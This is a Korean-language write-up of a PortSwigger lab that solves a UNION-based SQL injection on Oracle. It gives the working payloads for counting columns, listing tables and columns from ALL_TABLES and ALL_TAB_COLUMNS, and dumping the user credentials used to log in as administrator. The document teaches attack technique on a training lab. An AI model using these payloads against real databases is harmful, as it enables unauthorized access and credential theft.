

# SQL injection attack, listing the database contents on Oracle

## 문제

상품 카테고리 필터에 SQL injection이 있다. Oracle에서 계정 테이블과 열 이름을 찾아 사용자 이름·비밀번호를 조회하고, `administrator`로 로그인해야 한다. 테이블과 열의 실제 이름은 주어지지 않았다.

[PortSwigger 실습](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

## 풀이 기록

### 1. 주입과 열 개수 확인

카테고리에 `' OR 1=1 -- -`를 넣자 다른 카테고리의 상품까지 표시됐다. 이어 `ORDER BY` 번호를 올렸을 때 1과 2는 통과했고, 3에서는 HTTP 500이 났다. 원래 조회의 반환 열을 **두 개**로 판단했다. HTTP 500의 서버 내부 원인은 확인하지 못했다.

~~~sql fragment
' ORDER BY 3-- -
~~~

### 2. 테이블과 열 찾기

두 열에 맞춰 Oracle의 `ALL_TABLES`를 조회했다.

~~~sql fragment
' UNION SELECT table_name, NULL FROM all_tables-- -
~~~

목록에 `PRODUCTS`와 `USERS_QMYYSW`가 있었다. 전체 목록은 75개 테이블이었다. PowerShell로 `ALL_TABLES`의 `OWNER`도 함께 수집하고, `ALL_TAB_COLUMNS`에서 여러 테이블의 열을 묶어 조회했다. 그 결과 계정 테이블 후보의 구조는 다음과 같았다.

| 소유자 | 테이블 | 열 | 자료형 |
| --- | --- | --- | --- |
| `PETER` | `USERS_QMYYSW` | `EMAIL` | `VARCHAR2` |
| `PETER` | `USERS_QMYYSW` | `USERNAME_JSBEKU` | `VARCHAR2` |
| `PETER` | `USERS_QMYYSW` | `PASSWORD_HTFYTU` | `VARCHAR2` |

이 테이블의 열만 조회한다면 다음 형태다. 실제 조회에서는 여러 테이블 조건을 한 요청에 묶었다.

~~~sql fragment
' UNION SELECT column_name, data_type FROM all_tab_columns
  WHERE owner = 'PETER' AND table_name = 'USERS_QMYYSW'-- -
~~~

### 3. 계정 조회와 로그인

찾은 두 열을 상품 조회 결과의 출력 위치에 넣었다.

~~~sql fragment
' UNION SELECT USERNAME_JSBEKU, PASSWORD_HTFYTU FROM PETER.USERS_QMYYSW-- -
~~~

화면에 `administrator`, `carlos`, `wiener`와 각각의 비밀번호가 표시됐다. 이로써 `USERS_QMYYSW`가 계정 테이블임을 확인했다. 표시된 관리자 계정 정보로 로그인하자 실습 완료 배너가 떴다.

## 정리

`ORDER BY` 오류로 반환 열 수를 확인한 뒤 `ALL_TABLES`에서 테이블을, `ALL_TAB_COLUMNS`에서 열을 찾았다. 확인한 이름으로 계정 행을 조회하고 `administrator`로 로그인해 실습을 완료했다. 이 인스턴스의 `USERS_QMYYSW`, `USERNAME_JSBEKU`, `PASSWORD_HTFYTU`는 조회 결과로 알아낸 이름이다.

## 관련 개념

- [UNION 기반 SQL 인젝션으로 테이블과 열 찾기](../../concepts/sql-injection-union-workflow.md)
